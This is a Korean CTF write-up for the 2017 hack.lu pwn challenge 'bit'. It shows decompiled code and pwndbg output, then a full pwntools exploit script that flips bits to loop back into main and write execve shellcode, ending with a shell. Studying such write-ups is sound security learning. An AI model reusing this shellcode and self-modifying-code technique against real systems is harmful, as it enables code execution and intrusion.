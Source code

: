 # 2017 hack.lu - [PWN] bit

## Key words

-

## Solution

문제 내용은 다음과 같습니다

```
signed __int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  signed __int64 result; // rax@2
  _BYTE *v4; // rsi@5
  _BYTE *v5; // rax@5
  __int64 v6; // rsi@6
  __int64 v7; // [sp+1038h] [bp-8h]@1

  v7 = *MK_FP(__FS__, 40LL);
  if ( __isoc99_scanf("%lx:%u", &input_lx_601018, &input_u_601020) == 2 )
  {
    if ( (unsigned int)input_u_601020 <= 7 )
    {
      mprotect((void *)(input_lx_601018 & 0xFFFFFFFFFFFF1000LL), 0x1000uLL, 7);
      v4 = (_BYTE *)input_lx_601018;
      v5 = (_BYTE *)input_lx_601018;
      *(_BYTE *)input_lx_601018 ^= 1 << input_u_601020;
      *v4 = *v5;
      mprotect((void *)(input_lx_601018 & 0xFFFFFFFFFFFF1000LL), 0x1000uLL, 5);
      result = 0LL;
    }
    else
    {
      result = 0xFFFFFFFFLL;
    }
  }
  else
  {
    result = 0xFFFFFFFFLL;
  }
  v6 = *MK_FP(__FS__, 40LL) ^ v7;
  return result;
}
```

2개의 입력을 받고 해당 위치의 한바이트를 수정해주는데 `mprotect`를 이용하여 읽기, 쓰기 등의 모든 권한을 열어 두기 때문에 어디든지 쓰기가 가능합니다.

문제는 한 바이트만 변경을 해주고 종료가 되기 때문에 한번에 뭔가 익스를 할 수는 없고, 처음 입력을 이용하여 다시 main으로 돌아가 계속 임의 쓰기를 할 수 있도록 변경을 해 주어야 합니다.

제가 노린 지점은 2개의 mprotect 중 2번째 mprotect 위치 입니다. 해당 위치의 어셈을 보면 다음과 같습니다.

```
pwndbg> x/30i 0x400713
   0x400713:	call   0x400520 <mprotect@plt>
   0x400718:	mov    eax,0x0
   0x40071d:	mov    rsi,QWORD PTR [rbp-0x8]
   0x400721:	xor    rsi,QWORD PTR fs:0x28
   0x40072a:	je     0x400731
   0x40072c:	call   0x4004f0 <__stack_chk_fail@plt>
   0x400731:	leave  
   0x400732:	ret    
```

더 자세히 볼 부분은 `call 0x400520 <mprotect@plt>`부분입니다. 이 부분은 어셈 (5바이트) 으로 보면 다음과 같습니다.

```
pwndbg> x/16b 0x400713
0x400713:	0xe8	0x08	0xfe	0xff	0xff	0xb8	0x00	0x00
0x40071b:	0x00	0x00	0x48	0x8b	0x75	0xf8	0x64	0x48
```

`0xe8`은 call 명령을 의미하고 뒤로 `0xfffffe08`이 `mprotect`를 의미합니다. 이는 콜 테이블의 상대주소로 조금만 변경하면 main으로도 변경시킬 수 있습니다. 위 주소에서 `08`부분을 `28`로 변경하게 되면 main으로 되게 됩니다.

이를 위해서 `scanf` 입력을 `400714:5`로 하게 되면 `0x400714` 의 한바이트에 `1 << 5`를 하게 되면 `0xfffffe08` 값이 `0xfffffe28`이 되게 되고 이를 어셈으로 보면 다음과 같이 main을 호출하도록 변경됩니다.

```
pwndbg> x/10i 0x400713
   0x400713:	call   0x400540  ; <-- main 주소 (0x400540)
   0x400718:	mov    eax,0x0
   0x40071d:	mov    rsi,QWORD PTR [rbp-0x8]
   0x400721:	xor    rsi,QWORD PTR fs:0x28
   0x40072a:	je     0x400731
   0x40072c:	call   0x4004f0 <__stack_chk_fail@plt>
   0x400731:	leave  
   0x400732:	ret
```

이제 여러번 수정이 가능하기 때문에 main 뒤쪽에 64비트 쉘 코드를 넣고 마지막으로 다시 `0xfffffe28`을 `0xfffffe08`로 수정하게 되면 쉘 코드가 실행되고 쉘이 떨어 지게 됩니다.

여기서는 `mov eax, 0x0` 뒤쪽인 `0x40071d`부터 쉘 코드를 넣었습니다.

## Solution Code

```python
from pwn import *
import sys

def leak(addr, size, title=""):
	print "*** {} : {} ***".format(hex(addr), title)
	print hexdump(p.leak(addr, size), begin=addr, skip=False)

p = None
server = "flatearth.fluxfingers.net"
port = 1744
DEBUG = 0

if len(sys.argv) >= 2:
	DEBUG = 1
	p = process("./bit")
else:
	DEBUG = 0
	p = remote(server, port)


main = 0x400636
fix  = 0x40071d
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
code = "488b75f86448333425280000007405e8bffdffffc9c3662e0f1f84".decode("hex")

print "shellcode : ", shellcode.encode("hex")

p.sendline("400714:5")

if DEBUG != 0: leak(fix, 0x100, "fix")

# 40071d = 0x48
# 48  0 1 0 0 1 0 0 0
# 31  0 0 1 1 0 0 0 1
#p.sendline("40071d:0")

if DEBUG == 0:
	fix_data = code
else:
	fix_data = p.leak(fix, len(shellcode))

print fix_data.encode("hex")

for i in range(0, len(shellcode)):
	a = bin(ord(shellcode[i]))[2:]
	a = "0" * (8-(len(a)%8)) + a
	a = a[::-1]
	b = bin(ord(fix_data[i]))[2:]
	b = "0" * (8-(len(b)%8)) + b
	b = b[::-1]

	# 76543210
	# 00110001
	# 01001000

	for j in range(0, 8):
		if a[j] != b[j]:
			print "{}:{}".format(hex(fix+i), j)
			p.sendline("{}:{}".format(hex(fix+i), j))

p.sendline("{}:{}".format(hex(0x400714), 5))

#leak(fix, 0x100, "fix")

p.interactive()
```

## Result

```
hackability@ubuntu:~/ctfing/2017_hacklu/pwn/bit$ python sol_bit.py 1
[+] Starting local process './bit': pid 7390
shellcode :  31c048bbd19d9691d08c97ff48f7db53545f995257545eb03b0f05
*** 0x40071d : fix ***
0040071d  48 8b 75 f8  64 48 33 34  25 28 00 00  00 74 05 e8  │H·u·│dH34│%(··│·t··│
0040072d  bf fd ff ff  c9 c3 66 2e  0f 1f 84 00  00 00 00 00  │····│··f.│····│····│
0040073d  0f 1f 00 41  57 41 56 41  55 41 54 55  53 48 81 ec  │···A│WAVA│UATU│SH··│
0040074d  28 10 00 00  48 83 0c 24  00 48 81 c4  20 10 00 00  │(···│H··$│·H··│ ···│
0040075d  4c 8d 25 4c  06 20 00 48  8d 2d 4d 06  20 00 31 db  │L·%L│· ·H│·-M·│ ·1·│
0040076d  41 89 ff 49  89 f6 49 89  d5 4c 29 e5  48 c1 fd 03  │A··I│··I·│·L)·│H···│
0040077d  e8 36 fd ff  ff 48 85 ed  74 1f 66 0f  1f 84 00 00  │·6··│·H··│t·f·│····│
0040078d  00 00 00 4c  89 ea 4c 89  f6 44 89 ff  41 ff 14 dc  │···L│··L·│·D··│A···│
0040079d  48 83 c3 01  48 39 eb 75  ea 48 83 c4  08 5b 5d 41  │H···│H9·u│·H··│·[]A│
004007ad  5c 41 5d 41  5e 41 5f c3  90 66 2e 0f  1f 84 00 00  │\A]A│^A_·│·f.·│····│
004007bd  00 00 00 f3  c3 00 00 48  83 ec 08 48  83 c4 08 c3  │····│···H│···H│····│
004007cd  00 00 00 01  00 02 00 25  6c 78 3a 25  75 00 00 01  │····│···%│lx:%│u···│
004007dd  1b 03 3b 30  00 00 00 05  00 00 00 04  fd ff ff 7c  │··;0│····│····│···|│
004007ed  00 00 00 64  fd ff ff 4c  00 00 00 5a  fe ff ff a4  │···d│···L│···Z│····│
004007fd  00 00 00 64  ff ff ff c4  00 00 00 e4  ff ff ff 0c  │···d│····│····│····│
0040080d  01 00 00 14  00 00 00 00  00 00 00 01  7a 52 00 01  │····│····│····│zR··│
0040081d
488b75f86448333425280000007405e8bffdffffc9c3662e0f1f84
0x40071d:0
0x40071d:3
0x40071d:4
0x40071d:5
<... snip ...>
0x400734:1
0x400734:2
0x400734:3
0x400734:4
0x400734:7
0x400735:2
0x400735:4
0x400735:5
0x400736:4
0x400737:0
0x400737:7
[*] Switching to interactive mode
$ ls
bit  bit-331fce47417bf2194ad7b1e0a0d1da84.zip  core  sol_bit.py
```
